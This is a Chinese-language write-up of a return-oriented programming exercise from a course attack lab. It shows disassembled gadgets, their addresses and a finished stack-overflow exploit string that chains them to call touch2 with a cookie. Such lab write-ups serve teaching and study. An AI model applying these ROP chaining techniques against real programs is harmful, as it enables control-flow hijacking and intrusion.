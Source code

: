 ### 思路

- **level2简介**
  任务依旧是call:touch2()，且传递参数cookie，但是不能用自己的注入代码，只能用farm中的有的机器级指令.

- **解题过程**
  cookie的表示可以通过溢出的字符串注入，而我们利用ret返回到farm中有目标汇编指令的地址中，等价于不用call指令，却实现了调用我们想要的函数功能，而%rsp不会因为call指令而变，那么就为我们的攻击代码提供了可能性.  

  而在ctarget的level2中，我们的注入代码如下.

  ```py
    movq    $0x59b997fa,%rdi
    pushq   $0x4017ec
    ret     # ret指令等价于pop %rip 

    # 显然我们无法在farm中找到包含某个特定立即数(cookie)对应的指令，如果有，就不会出题了，优化

    # (参考了网上的solution)希望这样
    pop %rdi
    ret
  ```

  但是优化后的指令依旧没有对应的机器码，继续优化.

  ```py
    pop %rax
    ret
    --------------
    movq %rax,%rdi
    ret


    0000000000000000 <.text>:
   0:	5e                   	pop    %rsi
   1:	c3                   	ret    
   2:	58                   	pop    %rax
   3:	c3                   	ret    
   4:	48 89 c7             	mov    %rax,%rdi
   7:	c3                   	ret    
  ```

  我们发现上面的指令有对应的机器码

  ```py
  00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret    
  -----------
  00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret    

  90 对应 'nop'指令，所以不影响指令的执行，那么我们提取出两个地址
  1. 0x4019ab
  2. 0x4019c5
  ```
- 最终答案
  
  ```py
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    ab 19 40 00 00 00 00 00 # 注意一次pop为8个字节，第一个gadget地址
    fa 97 b9 59 00 00 00 00 # cookie pop 到 %rax
    c5 19 40 00 00 00 00 00 # 第二个gadget地址
    ec 17 40 00 00 00 00 00 # ret，即pop touch2地址 到 %rip
  ```